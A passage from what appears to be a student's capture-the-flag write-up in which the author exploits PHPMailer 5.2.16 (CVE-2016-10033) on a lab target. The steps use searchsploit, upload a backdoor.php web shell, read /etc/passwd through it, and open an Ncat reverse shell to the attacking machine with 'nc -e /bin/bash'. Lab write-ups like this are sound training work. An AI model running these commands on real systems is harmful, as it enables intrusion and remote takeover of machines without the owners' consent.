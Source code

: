 ![Vendor Directory](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_web_http_192_168_1_115-vendor.PNG)  
      - Screenshot of **`Flag 1`**:  
![Flag 1](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/flag1.PNG)  
      - Investigated the _`VERSION`_ file and discovered the PHPMailer version being used is _`5.2.16`_.  
![Version](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/targe2_VERSION.PNG)  
      - Investigated the _`SECURITY.md`_ file and identified **`CVE-2016-10033 (Remote Code Execution Vulnerability)`** as a potential exploit for _`PHPMailer version 5.2.16`_.  
![SECURITY.md](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_security_md.PNG)  

**Flag 2**  
- flag2.txt: `flag2{6a8ed560f0b5358ecf844108048eb337}`  
  - Exploit Used:  
    - Used Searchsploit to find vulnerability associated with PHPMailer 5.2.16, exploited with bash script to open backdoor on target, and opened reverse shell on target with Ncat listener.  
    - **Command:** `nc -lnvp 4444`  
    - **Command:** `nc 192.168.1.90 4444 -e /bin/bash`  
    - **URL:** `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`  
    - Used Searchsploit to find any known vulnerabilities associated with PHPMailer.
      - **Command:** `searchsploit phpmailer`  
```bash
root@Kali:~# searchsploit phpmailer
```  
![Searchsploit PHPMailer](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_searchspolit_phpmailer.PNG)  
  - Confirmed exploit `40970.php` matched with `CVE-2016-10033 and PHPMailer version 5.2.16`.  
    - **Command:** `searchsploit -x /usr/share/exploitdb/exploits/php/webapps/40970.php`  
```bash
root@Kali:~# searchsploit -x /usr/share/exploitdb/exploits/php/webapps/40970.php  
```  
![PHPMailer](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_phpmailer_40970-php.PNG)  
  - Used the script `exploit.sh` to exploit the vulnerability by opening an `Ncat` connection to attacking `Kali VM`.  
    - The IP address of **`Target 2`** is `192.168.1.115`.  
    - The IP address of the attacking `Kali machine` is `192.168.1.90`.  
![Nano Exploit.sh])(https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_exploit_sh-1a.PNG)  
  - Ran the script and uploaded the file `backdoor.php` to the target server to allow command injection attacks to be executed.  
    - **Command:** `bash exploit.sh`  
```bash
root@Kali:~# bash exploit.sh  
```  
![Bash Exploit](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_bash_exploit-sh.PNG)  
  - Navigating to `192.168.1.115/backdoor.php?cmd=<CMD>` now allows bash commands to be executed on **`Target 2`**.  
    - **URL:** `192.168.1.115/backdoor.php?cmd=cat%20/etc/passwd`  
![Backdoor.php](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_backdoor1.PNG)  
  - Used backdoor to open a reverse shell session on the target with Ncat listener and command injection in browser.  
    - Started `Ncat listener` on attacking `Kali VM`.  
      - **Command:** `nc -lnvp 4444`  
```bash
root@Kali:~# nc -lnvp 4444
```  
![NCAT Listener](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_ncat.PNG)   
  - In the browser, use the backdoor to run commands and open a reverse shell session on target.  
    - **Command:** `nc 192.168.1.90 4444 -e /bin/bash`  
    - **URL:** `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`  
![Backdoor2](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%202/target2_backdoor2.PNG)  
    - This allowed the Ncat listener to connect to the target.  
      - Interactive user shell opened on target using the following command:  